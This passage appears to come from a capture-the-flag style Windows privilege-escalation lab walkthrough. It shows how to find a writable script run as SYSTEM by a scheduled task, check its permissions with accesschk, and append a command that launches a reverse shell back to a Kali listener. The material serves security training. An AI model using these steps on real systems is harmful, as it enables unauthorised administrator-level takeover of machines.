 View the contents of the C:\DevTools\CleanUp.ps1 script:

```
type C:\DevTools\CleanUp.ps1
```

![[Pasted image 20240528200628.png]]


The script seems to be running as SYSTEM every minute. Using accesschk.exe, note that you have the ability to write to this file:

```
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

![[Pasted image 20240528200657.png]]


Start a listener on Kali and then append a line to the C:\DevTools\CleanUp.ps1 which runs the reverse.exe executable you created:

```
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

Wait for the Scheduled Task to run, which should trigger the reverse shell as SYSTEM.

Answer the questions below

Read and follow along with the above.
